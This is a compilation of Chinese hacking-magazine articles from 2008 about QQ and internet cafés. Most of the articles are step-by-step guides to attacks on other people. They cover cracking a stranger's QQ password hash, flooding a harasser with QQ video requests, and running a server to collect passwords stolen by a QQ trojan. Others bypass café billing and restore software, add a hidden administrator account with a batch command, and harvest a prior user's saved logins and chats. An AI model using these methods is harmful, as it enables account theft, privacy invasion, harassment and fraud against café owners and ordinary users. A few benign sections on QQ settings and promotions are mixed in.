再一看文件夹，居然还有个注册机，刚一执行完注册机，就自动删除了，哎，又中马了。先不管木马了，看看自己能不能破解掉这个牛X软件。使用OD打开主程序，却怎么也找不到提示语之类的线索，那该怎么办呢？使用eXeScope打开别的文件试试，结果在camrea.dll资源中的DRV有个ID为6000的地方，如图4。看到头文件没有，是个FWS，有没有一种很熟悉的感觉，这就是flash哪。直接导出，扩展名保存为1.SWF。然后使用flash播放器打开，看到一个美女在视频前，和网站上宣传的一模一样，如图5。

原来是这样骗人的啊，后来我又在网上看了看这款软件，原来要为那个网站做宣传，还要100个不同IP，然后就给你发注册码之类的，都是骗人的东西啊。更可恨的是我还中了别人放进去的木马，一下子掉了两个圈套里，特别提醒大家不要上当了。

（本文所涉及到的远程视频嗅探器已收录到光盘中）


## QQ 密码也来本地破解

我经常在网吧上网，在输入登录卡的帐户和密码，进入WINDOWS界面后，经常会碰到这样一种情况——之前的某位上机者直接退出了网吧管理软件，却忘记关闭自己的QQ，如图1。

于是，一个邪恶的念头就油然而生：修改对方的QQ密码，让对方知道没有安全意识是多么愚蠢的一件事！QQ在登录时实际上是依靠登录命令来进行登录的，相信以前看过杂志中关于编写QQ防盗号登录器的朋友都应该知道，QQ登录的命令类似于“/START QQUIN:5450913 PWDHASH:被加密过的QQ密码”。其中，这个“被加密过的QQ密码”使用的密码加密方法为BASE64算法+MD5算法。既然我们已经有了部分思路，解决的方法就相对简单多了。

首先给大家介绍一款工具——Process Viewer，它可以捕捉程序登录时的命令行，如图2。我们就是要用它来捕获登录的命令行，从而得到加密的密码。

但是，要捕获QQ登录的命令行，就需要让QQ重新登录一次。那么，如何让QQ重新登录呢？有两种方法可以做到，一个是选择QQ界面上的“离线”功能，然后再选择“上线”，如图3。

另一个就是选择“更新好友”，如图4。

我选择使用第二种方法重新登录后，来到Process Viewer的进程查看项，选择QQ的进程，点鼠标右键，然后在弹出的快捷菜单中选择“启动信息”，如图5。

在弹出的对话框中就可以看到这段信息：/START QQUIN:5450913 PWDHASH: zfPkxJwyqL8vwsWxeBqTlA==。其中，zfPkxJwyqL8vwsWxeBqTlA==就是被加密后的密码了，如图6。


启动目录
C:\Documents and Settings\Administrator\桌面
命令行:
/SelectionType:3 /START:QQUIN=450913 PQWDHASH=8b32d5514c8abd14d5f9A1982A1A5A76 /STAT:10 /EMB_HWND:0 /NOALTTOSCA
环境变量:
ALLUSERSPROFILE=C:\Documents and Settings\All Users
APPDATA=C:\Documents and Settings\Administrator\Application Data
CLIENTNAME=Console
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=GAMED91
ComSpec=C:\WINDOWS\system32\cmd.exe
FP_NO_HOST_CHECK=NO
HOME DRIVE=C:
HOMEPATH=\Documents and Settings\Administrator
LOGONSERVER=\\GAMED91
NUMBER_OF_PROCESSORS=2
OS=Windows_NT

既然密码使用了BASE64 + MD5加密，那么首先就来BASE64解密。关于BASE64解密，可以使用强大的口令破解工具cain。


运行Cain，选择“工具”菜单下的“Base64口令解码”，如图7，输入fPkxJwyqL8vwsWxeBqTlA==，马上获得BASE64解码后的字符串为cd13e4c49c32a8b72fc2c5b1781a8320，这段字符串就是经过MD5算法加密过的QQ密码，如图8。


关于破解MD5密码，在杂志的入侵文章中已经不止一次的介绍过了，我们来到www.cmd5.com这样的在线MD5密码破解站点，输入MD5字符串，然后单击解密按钮，只要对方的密码不够强壮，就可以破解出来，如图9。本文已经给了各位小菜一个本地破解QQ密码的新思路，还等什么，赶快去实践吧！


(本文所涉及到的ProcessViewer和Cain已收录到光盘中)

## 突破QQ新限制
### ——再次利用视频攻击

破坏病毒

最近一位同学不停的骚扰我，导致我心情急速下降，一时没有肉鸡在手无法进行恐怖的DDOS攻击，在网上找到个大仙QQ视频攻击，但是BT的腾讯已经作出限制，在15秒里不能进行2次的视频请求。我又在网上搜索了半天，也没找到怎么突破15秒的限制。后来在玩FLASH游戏的时候，用到了变速精灵，可以把Flash的速度变快或变慢，这个是不是也能用到突破QQ视频的15秒限制呢？马上动手来实验一下。

我先打开一个QQ的对话框，然后在变速精灵的“变速方法”里找到QQ的对话框选项，回到界面把速度调节到“快”的那一端（图1）。

点击“变速”后，先把屏幕分辨率调成1024*768，因为大仙QQ视频攻击只支持这个分辨率（图2），然后把攻击器对准聊天窗口，尤其视频摄像头的图标一定要对齐才行（图3），点“开始攻击”对方就有好受的了，停止则是按下键盘的F3即可。

(本文所涉及到的变速精灵和大仙QQ视频攻击器已收录到光盘中)


## QQ宝典
### 2008合订本上卷


图2

图3

## QQ蜜探帮你查好友

石头

看着QQ里长长的联系人名单，有多少人真的是我的“好友”呢？你都变成了谁的“陌生人”呢？QQ好友蜜探可以帮你解答这些问题，这个软件能轻松分析出你的好友中有谁已经将你从好友中删除了。

打开QQ好友蜜探，其界面如图1所示。首先登录需要查询的QQ号码，点击上方的“账号登录”，输入你的QQ号和密码登录（图2）。然后点击“获取好友”，你的全部好友信息就会出现在左边的框中了。最后选择“分析关系”，如果你的好友不多的话，一会儿工夫，就会显示完成（图3），从分析结果中可以清楚的看到，显示对勾的则表示你是对方的好友，而显示“您不是Ta的好友”则表示对方已经将你从他的好友中删除了。另外，在工具最底下也会显示出数字统计，包括好友总数，已将您删除的好友数量等。

看到有许多好友都没有加我，心里很伤心，怎么办呢？送他们一点小礼物吧，正好万象和腾讯在搞活动，免费赠送QQ秀购物卷、QQ空间购物卷、QQ音乐15天下载和QQ的7天会员。我们


图1


图2


图3


图4

2008年03月29日完成于武汉市制作:小艾 E-Mail:aqta@vip.qq.com

## 2008 合订本 上卷
# QQ 宝典

打开网址http://www.sicent.com/vip/qq/index.asp，如图4。网页上说在万象网吧登录的用户才可以领取，不过据我的测试可以不理这点，点击“领取我的体验码”，然后登录你的QQ，如图5。接着我们能看到赠送码已经自动出现在输入框内，点击“马上兑奖”。这个号码领取时只有三个奖项了，缺少了会员的7天体验。领取的奖项可以多选，当然是全都勾选上了，输入验证码后，点击“领取我选中的奖品”就可以了（图6）。

（本文所涉及到的QQ 好友密探已收录到光盘中）


## 另类方式登录 QQ

伴随QQ用户的增加以及QQ增值业务的增多，QQ号码已经被赋予了价值，因此也就被很多黑客商人看在了眼中。现在使用QQ已经非常不安全了，我的电脑在病毒高峰期三天两头就中病毒，不管是下载软件试用还是浏览网页，病毒和盗号软件可谓漫天飞。

那么如何在这样的网络现状下保护我们QQ帐户和密码的安全呢？今天我就给大家介绍两种安全登录QQ的方法，第一种方法可以让你方便的登录QQ，不用再重复输入帐户和密码；而另一种方法可以有效防止木马盗窃你的QQ号码。

无敌小龙

### 一、VBS 脚本登录法

首先，打开记事本，输入如下代码：

```
Dim WshShell, QQPath, QQselect
QQPath="D:\software\Tencent\QQ\QQ.exe" '这里
是QQ的路径
Set . WshShell=WScript.
CreateObject("WScript.Shell")
WshShell.Run QQPath
Wscript.Sleep 2000
WshShell.AppActivate "Q登录"
WshShell.SendKeys "[TAB]"
WshShell.SendKeys "54509130" '
这里是帐户
Wscript.Sleep 200
WshShell.SendKeys "[TAB]"
WshShell.SendKeys "123456" '这
里是密码
Wscript.Sleep 200
WshShell.SendKeys "[ENTER]"
```

上面这段代码的意思就是：首先使用createobject 函数创建一个wscript 对象，然后运行QQ登录文件，接着把焦点移动到号码输入窗口，输入QQ号码，再把焦点移动到密码输入窗口，输入密码，最后休眠200毫秒，然后模拟键盘敲入回车键。输入完上面的代码后，将其另存为log.vbs，如图1。

双击这个LOG.VBS文件，就可以登录我们的QQ了，是不是方便了很多呢，如图2。

### 二、命令行登录法

使用xp fox 编写的一款工具Encode，可以把我们的QQ密码加密成腾讯QQ密码的登录加密码（其实就是把你的密码经过BASE64和MD5双重加密）。运行XpFox encrypt/Decrypt，在“QQHash Encrypt”的“String”栏输入QQ的密码，首先把密码转换为QQHash 值，如图3。

按Win+R 调出运行栏，输入“你的QQ目录\QQ.exe /START QQUIN:QQ号 PWDHASH:生成码 /STAT:40”（登录状态40为隐身、41为正常），也就是D:\software\Tencent\QQ\QQ.exe /START QQUIN:54509130 PWDHASH:8rOLat1OKnM3tly7pY65 9g== /STAT:40，点击确定，就可以登录QQ了，这样可以有效防止QQ木马截取你的QQ密码，如图4。

（本文所涉及到相关VBS代码以及EnCode已经收录到光盘中）

| Encode - Encode tool |  |  |
| --- | --- | --- |
| DES Encrypt / Decrypt | × | MD5Encrypt | × |
| String: |  | String: |  |
| Key: |  | Md5 16: |  |
| Encrypt: |  | Md5 32: |  |
| Decrypt: |  | Base64 Encrypt / Decrypt |  |
| AES Encrypt / Decrypt | × | String: | × |
| String: | String: | Encrypt: |  |
| Key: |  | Decrypt: |  |
| |  | QQHash Encrypt |  |
| |  | String: | 123456 | × |
| Encrypt: |  | QQ Hash: | 8rOLat1OKnM3tly7pY65 9g== |  |
| Decrypt: |  | URL Encrypt |  |
| ASCII | × | String: |  |
| String: |  | URL Encode: |  |
| ASCII: |  |  |  |
| Hex/10Hex.Txt.Net |  |  |  |


图2


图1

图3


图4


## 想盗QQ号跟我来

chenggong

提起盗QQ号小菜们肯定不陌生，在以前的黑客X档案里曾经介绍过很多盗QQ号的软件和方法，可很多小菜发现最近盗取QQ号已经不再像以前那样容易了，我也测试了多个QQ盗号木马，使用网易、21cn、搜狐等邮箱都收不到木马发出的信件，是什么原因呢？难道是腾讯对于QQ的防御能力加强了吗？事实上收不到信的主要原因是邮箱运营商将盗号木马发出的信件给屏蔽了，使用空间信箱也是如此，空间提供商将木马上传的txt文件给阻止了。找到原因就好办了，既然是运营商屏蔽了，那我们在自己的电脑上架设邮件服务器或空间服务器，不就解决问题了吗？

提起架设服务器可能有许多小菜会认为太难了，各位不用担心，我保证看完本文后，你也一定能够建立邮件服务器或空间服务器的，因为我介绍的方法和软件都是非常方便和简单的。

由于大多数小菜习惯使用邮箱收信，我们就先来架设邮件服务器，网上有很多架设邮件服务器的软件，我们就选用一个简单的、功能比较少的绿色软件quickmail汉化版，由于此软件功能比较少不适用于架设专业的邮件服务器，但是对于我们仅接收盗号木马发出的邮件，此软件的功能还是足够的。

quickmail汉化版是绿色软件不需要安装，直接运行后点击“邮件服务器设置向导”，一步步的设置就可以了。除了配置域名需要根据你自己的情况起个容易记忆的名字外，其它的都可以按默认设置，如图1，在“配置默认域名”中我输入的是my.com。在“配置用户帐号”中添加一个帐号，就和我们申请邮箱是一个道理，直接添加一个123帐号就相当于申请了一个名字为123@my.com的邮箱，这比申请邮箱简单多了。这样我们的邮件服务器和邮箱帐号就建立了，下面来看看QQ盗号木马的配置。


网上有很多盗号木马，我个人认为“金狐QQ2008大盗”比较好用，因此就以它为例来进行说明，如图2，勾选上“邮箱收信”，在收信箱和发信箱中填上我们刚才建立的邮箱123@my.com，在“邮箱smtp”中填上你电脑的公用IP地址，如果你是公网IP地址又是固定IP地址的话就可以发信测试了。但是对于内网和小区宽带用户需要填写路由器或服务器的外网IP地址，并且要利用路由器的端口转发功能将110和25端口转发到公网IP地址上。如果你不能登录路由器或服务器实现端口转发，内网用户建立的邮箱服务器肯定收不到外网发出的邮件。安装完成后一定不要忘记在防火墙中打开110和25号端口，否则也肯定收不到邮件的。


由于大多数网友使用的是ADSL拨号上网，因此我们重点讨论一下ADSL拨号上网用户对于盗号木马的设置情况。大家都知道ADSL拨号用户，IP地址是动态的，我们重启电脑或重新拨号后盗号木马发出的信就收不到了，我们总不至于24小时不关机的等待收信吧（事实上即使我们始终不关机，运营商也会在一定时间重启服务器使我们的IP地址发生变化）。使用动态域名就可以轻易的解决这个问题，推荐使用每步的动态域名，从网上下载meibufobbn绿色精简修正版，如图3，点“注册”来注册一个用户，比如注册的用户名为chneggong，然后在用户名一栏中输入chneggong.meibul.com和密码后点击“登录”，就可以将本机IP地址和域名chneggong.meibul.com进行绑定了。

在“金狐QQ2008大盗”的“邮箱smtp”中填上动态域名chneggong.meibul.com，这样就不怕盗号木马发信找不到我们了。“金狐QQ2008大盗”在每次QQ登录时都发出一封包含QQ密码和帐号的邮件，即使中木马的电脑第一次登录QQ发信时你没在线，而以后你在线时中木马的电脑登录了QQ，一样会将帐号和密码发送给你，这就是动态域名的好处。

在“金狐QQ2008大盗”里填上收信箱、发信箱、密码、动态域名后，点“发信测试”就可以收信了，我们使用“outlook express”收信看看，如图4，点“发送/接收”按钮收信，居然提示错误，郁闷！不知道是我的系统（XP精简版）问题还是其它的原因造成的，希望高手们指点！从邮件服务器quickmail的日志中看到邮件已经成功发送，复制到C:\Mailboxes\123目录中，如图5。在我的电脑123目录中可以看到一个扩展名为.eml的文件，双击此文件就会自动调用“outlook express”打开，可以看到一封主题为“QQ终结者”、内容为“测试成功”的信件。

测试成功后我们就可以登录QQ了，运行上面配置生成的木马，然后登录一个小号QQ，由于盗QQ木马中经常会有后门，所以建议使用小号QQ进行测试，防止偷鸡不成蚀把米，将你的大号盗去。然后到C:\Mailboxes\123目录中查看，可以看到增加了一个扩展名为.eml的文件，双击自动调用“outlook express”打开，可以看到一封包含有QQ帐号、密码等信息的信，表示我们成功了，如图6。

下面我们再来谈谈如何使用网页收信，当然还是在自己的电脑上架设一个ASP服务器了，推荐使用小旋风ASP服务器，据说此软件是最小功能最全的ASP服务器，完全且完美支持ASP。安装完成运行后会在桌面右下角状态栏看到一闪一闪的小电视图标，在浏览器中输入127.0.0.1或你的外网IP地址显示“恭喜您成功了”，就表示成功建立一个ASP服务器。

金狐QQ2008收信的关键文件就是QQ.asp，需要注意的是由于“挖掘鸡”等软件可扫描到QQ.asp等默认文件名，然后偷偷你盗取的QQ号和密码，即使不使用“挖掘鸡”等软件，扫描到你的电脑开着80端口，只要猜到你的文件名就可以使用浏览器打开或下载此文件，因此必须将QQ.asp这个文件改名，比如将QQ.asp更改为一个别人不容易猜到的文件名001a2b.asp。将改名后的文件复制到C:\Program Files\小旋风AspWebServer\wwwroot目录中。在金狐QQ2008大盗的“空间收信”中填上动态域名http://chnegong.meibu.com/001a2b.asp，需要注意的是和邮箱收信一样，内网用户也需要端口映射才行。

运行meibufobnn绿色精简修正版，然后点发信测试，金狐QQ2008大盗提示“网站发信完毕”，我们在C:\Program Files\小旋风AspWebServer\wwwroot目录发现一个名为qq2008jhxin.txt的文件，打开此文件就可以看到QQ的密码和帐号，当然也可在浏览器中输入域名或IP地址加文件名打开此文件，如图7。由于挖掘鸡等软件经常扫描名为qq2008jhxin.txt的默认文件名，因此最好将qq2008jhxin.txt也改名，方法是使用记事本打开001a2b.asp，找到strLogFile="qq2008jhxin.txt"，将qq2008jhxin改为一个不容易猜到的名比如001a2b.txt，如图8。更改好后，盗号木马就可将盗窃的QQ密码和帐号自动上传到001a2b.txt文件中了。

在自己的电脑上建立服务器虽然可以盗号了，但是我心里并不高兴，因为我的电脑并不能24小时在线，如果不能在第一时间收到盗号木马发出的回信，随着时间的增加QQ木马在肉鸡上被发现的可能性也就越大，我们盗号的成功率也就越低。真的希望高手们研究一下邮件服务器或空间服务器屏蔽的原理，写出可以突破服务器屏蔽的盗号木马来。

另外需要注意的是，为了建立ASP服务器和邮件服务器打开了80、110、25等端口，我们电脑的安全性也受到了一定的威胁，因此一定要安装好防火墙（当然在防火墙中要打开80、110、25等端口）并利用用户权限保护好自己电脑的安全。

（本文所涉及到的quickmail汉化版、meibufobbn绿色精简修正版、金狐QQ2008大盗、小旋风ASP服务器已收录到光盘中）


图4

图5

图6


图7


图8

## QQ组自定义排序

这是一个偶然的发现，某日，我重新安装了系统，安装完QQ登录后发现我的QQ组顺序变了，开始以为是QQ服务器的缘故，后来发现QQ2007II正式版居然可以“自定义”好友分组了。说是自定义，其实也不完全是，有点手工的味道。现在看下我的好友分组，如图1。我调整一下顺序在看看，如图2。看见没有，my friends排到第一位去了。这时候可能有人已经发现了，我只是在群组名称前加了一个空格而已。其实就是这样的，在每个好友组名称前加一个空格、特殊符号、数字或者字母，就可以调整顺序了。它们的顺序是这样的，我使用大括号表示，最大的为排在最前，全角空格>空格>特殊字符>数字>字母>汉字，同类则按照先后顺序，如果第一个标示相等则比较第二个，以此类推，汉字以首字母为顺序。知道这个顺序就好办了吧。只要在你好友组名称前面加上相应的标示就可以按照自己的意思排序了。经过我的测试，1月20日发行的QQ狂人版也支持此排序。


图1                     图2

## “爱心守护天使”送来QQ大礼

战神MARS

最近999感冒灵开展了一个叫“寻找爱心守护天使”的活动，里面有许多的QQ奖品。喜欢免费东东的小菜们快去看看吧。

首先我们来到39的“寻找爱心守护天使”活动首页：http://www.999gml.com.cn/aixintianshi/intro.html，里面有详细的活动介绍和奖品设置，活动时间是：2008年3月24日到8月8日，大家赶快行动吧！

如果你身边有爱心守护天使推荐那是最好，没有我们也可以投票也能得到免费的QQ秀。每日参加投票的前2800名网友可获得999感冒灵提供的精美QQ秀一套。另外每日从注册用户中抽取20名幸运者获得10元购物券。上传作品并通过审核即可获得6个月红钻嫖贵族体验（共1.5万个，送完即止）。每月票数前30名（推荐人）可获得500元的QQ购物券。

好了，下面介绍下如何免费领取精美的QQ秀（价值4.5Q币哦）：首先我们先注册一个ID。在首页登陆区域点击“注册”按钮，进入“用户注册”页面（如图1）里面的内容可以随便填写，填写完毕点击“确认”按钮完成注册。接下来我们去参加“投票有奖”活动，进入活动页面，点击“投票有奖”按钮（如图2）进入“爱心天使展示”页面（如图3）。在这里我们选择一个爱心天使，然后给他/她投票。投票完成后将自动打开投票成功页面（如图4）。大致内容如下：恭喜你投票成功！并获取精美QQ秀一套，兑奖密码：******请妥善保存好此密码，兑奖地址：http://live.show.qq.com/live/exchange/999。好了，我们打开前面的兑奖地址，填入兑奖QQ、兑奖密码、验证码、选择自己喜欢的QQ秀样式就可以免费获得QQ秀了（如图5）。


牟晓东

## QQ空间克隆大法

使用QQ有好多年了，却也仅仅是用来聊天而已，最近突然发觉身边的QQ友都开了花花绿绿的空间，自己则经常受到邀请帮他们去“踩”空间。结果三踩两踩就踩上瘾，也开了自己的QQ空间。但看着自己的空间感觉很土，似乎比别人的低了几个档次，怎么办呢？当然是克隆啊！

打开浏览器，在地址栏中输入“www.qzone6.com”进入QQ空间克隆，然后在右下方单击选择一个“装扮服务器”进行登录（图1）。登录成功后在页面的右侧输入自己的QQ号及密码，单击“进入系统”按钮后再输入一次验证码。

成功后，网站就会列出很多优秀的主题空间推荐，我们可以从中选择一个自己喜欢的空间，然后选择“克隆该空间”，或者直接将某个拥有漂亮空间的QQ好友的号码输入到“您要克隆的qzone空间：”中，然后单击后面的“开始复制”按钮。这时网站会根据你所选择的QQ空间的复杂程度（包括多少个窗体）而不断提示你输入验证码，最后就会弹出个窗口提示我们“创建空间成功，你现在可以打开你的空间查看你装扮得漂漂亮的样子了”，如果我们选择QQ空间的收费模板的话，则也会给出相应的提示。这时我们再打开自己的QQ空间看看，感觉的确不一样了，最牛的是和人家的一模一样了。


## 网吧三剑客之玩转网吧

最近在网上搜索到了两个网吧破解工具，还有一个是在网吧的电脑里找到的，姑且把它们叫做网吧三剑客吧，分别是“网吧加游站”、“万象2004外挂”和“Pubwin破解伪装完美版”。它们可以破解网吧中的一些文件和系统的限制，实现免费上网、作弄别人的目的。

大漠

### 一、第一剑——网吧加游站

通常网吧里有什么限制，我们都可以使用它来恢复，此工具的密码是91858（图1）。这个工具是我在一个网吧的电脑中找到的，我们这儿的网吧基本上是由同一家公司给维护设置的，所以限制也一样，有时使用数据恢复软件恢复一下系统盘说不定就能找到什么好东西。来看一下界面，选项非常多，首先选上“IE相关”，因为我们有时候要进行网站注入攻击，所以不能少了它，在高级选项里将“显示友好http信息”前面的勾取消掉（图2），点击保存就可以了。还有就是下载，Intenet选项的限制（图3），另外就是系统的限制（图4），把这些限制取消掉然后保存，基本上网吧中的限制就已经解除了。

图4

### 二、第二剑——万象2004外挂

万象2004外挂工具挺好玩的，大家看一下它的界面就知道了（图5），当然前提是万象的端口为11011，使用前必须先按“ESC+SHIFT”键，否则将无法使用，按完后就可以输入了。打开软件后会显示你当前的电脑号码，如果我们想整30号电脑的话就填上030，接下来就远程控制对30号电脑进行重启、关机、锁定（万象会员登录窗口出来了，管他余额还有没有，重启就可以了）、解锁（去登录窗口），另外就是发送信息（图6）。这个工具的危害性挺大的，我一好友就是一气之下，网吧全……（小编：说了多少次，不要干坏事啊，小心被警察叔叔抓）。

### 三、第三剑——Pubwin 破解伪装完美版

这个工具是针对pubwin2007版的，可以伪装“合法”的上机用户，服务器那里不会显示为非法用户。工具运行后的界面如图7所示，我们可以自己修改伪装的用户信息。使用非常简单，第一项是在20秒内搜索本机的pubwin，然后破解程序，还有诸如替换管理密码、新建账户、注销等。有了这个工具，我们就不用担心免费上网被抓了。

该怎么玩就怎么玩吧，别怪我没提醒，做人还是厚道点的好，毕竟我们的目的仅仅是研究技术，而不是搞破坏。（本文所涉及到的网吧加游站、万象2004外挂和Pubwin破解伪装完美版已收录到光盘中）


## 网吧里的“社会工程学”

孤独战神

最近正忙着学习VB，手头也没有什么现成的资料，唯一的一台古重级的电脑偏偏又没有连网，我不得不网吧里去上网，也因此这次的网吧之旅让我发现了一个由人们的懒惰而引发的个人信息安全问题！

在网吧刷卡后我发现有N台电脑没有关机，而只是简单的锁屏，自己也是图方便，就找了台没有关机的电脑坐了下来。当我登录系统后，打开IE输入WWW时却发现了一些历史记录的URL地址（图1），突然就萌生了一个念头，利用前一个用户留下的历史记录来刺探对方的敏感信息。

先查看“开始”->“文档”，里面有不少访问过的文件的记录，大致看了下没有什么有价值的信息，再来看下URL里都有些什么样的地址链接，有一个“www.xiaonei.com”，看来前一次用过电脑的还是一个学生，登录了那个网站，在用户输入框里依次从“a-0”的输了一遍，你会发现一些曾经登录过的用户名称，相信对此大家都很熟悉了，平常我们也会认为这样方便我们的登录，可没有想到此刻却被它给出卖了。随便选择一个用户名，“幸运”今天终于降临到了我的头上，密码框里也自动填充了起来（这是因为使用者登录时选择了自动记录密码），虽然是以*号显示的，但随便使用一个星号密码查看器就可以成功的显示出真正的密码了（图2）。

顺利的登录了进去，还得到了他的明文密码。在www.xiaonei.com里的个人资料中，我们又得到了他几乎所有的敏感信息（图3）。

哈哈，再到QQ登录里去看看，也有不少啊（图4），看来不止是一个人曾经没有关机那么简单了。

再继续使用他资料里的QQ去对应QQ登录里记录下来的QQ，使用刚才得到的密码来登录，没有成功，密码意识还是有的，嘿嘿。不过他的聊天记录我们还是可以一览无遗的（图5）。我还发现了他的xiaonei.com里的帐户是163的邮箱帐户，再去碰下运气，郁闷也没有成功。

由于时间问题我就只能刺探到了这儿，不过就我们现在掌握的信息，花点时间来分析，做个字典什么的，搞到他的其他帐户信息也并非难事！只是想告诉各位，在公共场所上机一定要注意自己的个人信息安全，人家网吧明明有还原，你却偏偏不愿意做，举手之劳关掉电脑，结果吃亏的只能是自己了，相信这样的懒人不在少数吧！


# 网吧黑客

## 2008 合订本上卷


### 和我一起来破解金盘机房管理软件

羽渐

近日，我对金盘机房信息管理系统的安全性做了简单的检查。在检查中发现，金盘机房信息管理系统存在一些不完善的地方，这些缺陷可以被利用来逃避收费。在此，我将这些问题的发现过程记录下来并简单地讨论一下对策。

我认为最好的方法就是在登录界面时屏蔽像 Ctrl 和 Shift 这样的功能键，只在登录时无法切换输入法，对于用户来讲就几乎没有什么影响了。

#### 一、手工破解

我首先测试了输入框是否存在溢出漏洞，在用户名文本框输入了较长的一段字母（随便按哪个键都行），持续按键 3 分钟左右，然后点注册，随即弹出了窗口，提示用户名不存在，然后关闭弹出窗口，管理软件就提示出错，自动关闭了。还有一个简单的方法（这个方法需要登录帐号），就是复制大堆文本，然后进行粘贴，但需要注意的是复制的文本不能有回车符号，不然软件会把回车以后的数据去掉，而且粘贴的文本不能太大，至于到底多大我也没有去实验，我把 sina 首页的代码去掉回车符号粘贴进去，结果提示服务器无响应，电脑就死机了，真是郁闷！管理软件出错崩溃的原因是因为使用了 C 语言，却没有建立完善的边界检测机制，标准 C 语言具有许多复制和添加字符串的函数，这使得标准 C 语言很难进行边界检查。C++ 稍微好一些，但是仍然存在缓冲区溢出。一般情况下，覆盖其它数据区的数据是没有意义的（精心构造的用于入侵的代码除外），最多造成应用程序错误，但对于机房管理软件来说，软件自身的安全性就很重要，若软件崩溃，也就意味着管理失效。

现在的解决方法一般都是从源码上改进，限制输入数据的长度。用户无法输入过长的数据也就无法溢出了。

#### 二、输入法破解

这个漏洞已经很老了，但我在检测时却发现它还是存在的。在登录框使用智能 ABC 输入 “v”，再按向上光标 “↑”，再按 Delete，然后再按回车或者空格，这时就会弹出错误信息，点击取消，软件就会自动关闭。其实智能 ABC 的漏洞也属于溢出漏洞，这个问题是由输入法自身的设置缺陷而引起的，虽然与管理软件的设计没有直接联系，但却能影响到管理软件，这就是一个问题。

这个问题的处理方法有很多，有些人直接把智能 ABC 输入法删除了事，但这对于用智能输入法的朋友来说却是一个麻烦，

#### 三、使用批处理破解

前提是你已经有一个能登录的帐号了，要用到的工具是 pskill.exe（pstools 工具包中有，可以从网上下载）。新建一文本文件，写如下批处理命令：

```
pskill -t Clicold.exe
pskill -t Client
pskill -t EXPLORER.EXE
EXPLORER
```

写完后进行保存，再将后缀名.txt 改为.bat（图 1）。

同时终止双进程即可实现破解，首先双击任务栏图标把金盘系统调整到注销状态（图 2），首先不要点上面的 “是”，运行批处理后立即点 “是”，在注销数据发出后运行批处理终止计费（小编：我也玩过网吧破解，这个应该是利用程序在注销的时候会自动关闭自己的双进程保护，然后再关闭计算机，运行此 BAT 文件可以在双进行关闭和计算机关闭的这 5 秒左右的时间里将管理程序终结掉，然后重新恢复运行资源管理器程序）。对于这个漏洞来说没有什么好的防范方法，只有看软件公司如何在软件的工作方式上进行改进了。


图 1


图 2

#### 四、安全模式漏洞

开机时按 F8 键直接进入安全模式，选择 “带网络连接的安全模式”，这样虽然可以直接进入系统，但是安全模式的界面不敢恭维，不过想到这是免费上机，也就忍忍吧！

这个问题的解决方法也比较简单，因为现在网上关于屏蔽 F8 的方法有很多，比如文件替换，修改启动相关的一些设置等，搜一搜就能找到了。

#### 五、伪造注销信息破解

我在检查的过程中还发现客户机与服务器之间传输的数据没有加密，这样就给伪造注销信息提供了机会，而且在下机的信息中也没有加入环境变量，这使得伪造更加简单（图 3）。


图 3

我们可以伪造注销信息发给服务器，然后服务器会认为你已经下线，便停止计费。由于时间原因，我没能亲自通过伪造注销信息来进行破解，但这个方法的可行性是可以确定的。现在网上已经有一款针对这个漏洞的软件了，由于是收费的，我就不介绍了。加密传输数据是很有必要的，解决的方法就是加密了。

我暂时就发现了以上这几点不足的地方，这次检查的金盘机房信息管理系统 Version1.22 的版本应该是比较老的了，我估计现在的新版本可能已经解决了其中的部分问题。各位读者看了本文后也不要认为以后上机就不用给钱了，做人还是要厚道的，呵呵！

（文章中涉及到工具 pskill.exe 已经收录于光盘中）

70

## 2008 合订本上卷

# 网吧黑客

### Ikeeper的菜鸟破解经验谈

笨寻

我们这一带的网吧是由一个公司负责维护的，但环境各不相同。比如有些网吧有U盘自动播放，这时你可以插上你的u盘，此时无论ikeeper登录与否，自动播放都会跳出来，就可以破解掉ikeeper的限制，做很多事了。首先新建一个bat文件，内容为 net user aa /add & net localgrop administrators aa /add（注意administrator后面要加“s”，表示管理员用户组），意思为添加一个名为aa的无密码用户并将其添加到管理员组中，这是留着注销后登录使用的。

由于msconfig命令不能详细看到所有的启动项，所以我们请出大名鼎鼎的sreng，在“启动项目”中可以看到计算机所有的启动项，包括隐藏的（图1）。我们强行删除ikeeper的启动项，为了过会儿不至于突然关机，可以把Entrysp（ikeeper的）和其它不顺眼的启动项全都删除了，然后注销使用新添加的用户进行登录。另外一种方法就是黑客X档案以前曾经提到过的，打开xp自带的防火墙截本机上Ikeeper与主机的通信。根据我的经验，使用ikeeper的大部分网吧都可以使用xp防火墙（注意：开启防火墙后，你要是没钱的话是不会提示你下机的，我曾经在使用此方法时，结果人家把钱充到了我使用的电脑上。所以不管什么方法，要因环境而异，推荐大家都到那种凭卡上网的网吧，方便安全）。

最后再给大家介绍使用机时小偷来搞定ikeeper的桌面锁定（图2），我们在系统被锁定前设置好机时小偷，一般延迟输入15秒，然后不管是你结帐下机还是卡内没钱了，稍等15秒就能继续享用免费的上网了。

（本文所涉及到的sreng和机时小偷已收录到光盘中）


### 让菜鸟都来“颠覆”网吧

稻草人

寒冷的北风一阵阵的刮着，冷的我一点儿都不想学习，只想呆在宿舍暖和的小天地里上网。最近对Windows系统产生了兴趣，特别是WinPE，闲着没事时我就会泡在深度和雨林木风论坛研究WinPE，然后在我那128M的U盘上进行测试。记得在07年12期杂志中就有一篇利用WINPE破解还原系统的文章，方法很是标新立异。不过那篇文章中关于WINPE的制作和使用却没有具体提及，这次我就给大家补上。

#### 一、原理

先来说说什么是WinPE吧，其中文就是“预安装环境”，或者叫工程师环境，这是为了维护安装系统的一个系统工具。它可以安装在光盘、可移动硬盘或U盘上，可以读硬盘、光驱，还能运行一些程序。可以说WinPE是独立于电脑操作系统的一个小的系统，在启动WinPE后，原来操作系统上的一切软件都不会启动了，还原软件当然也不例外了，这时我们就可以在WinPE上对磁盘进行读写操作了。

#### 二、环境分析及工具

1．可以说目前绝大多数的网吧里都安装有还原软件或还原卡，随着技术的进步，网吧里的还原软件功能也越来越强大，网维大师就是其中很典型的一个，它是集娱乐和还原于一身的应用非常普遍的一款软件（图1）。


2．网吧中的电脑应该都支持从光盘、可移动硬盘、U盘等的启动，不过几乎没有哪家网吧的电脑是安装有光驱的，但USB接口却基本上都是开启的，也就是说基本上都可以通过USB来启动电脑。

# 网吧黑客

3．木马或其它远程控制类软件一个，很多网吧的电脑都没有安装杀毒软件，这更省去了我们为木马制作免杀的工夫了。

4．要用的工具则是容量大于64M的优盘一个，容量再小的话恐怕就不行了！

#### 三、开始行动

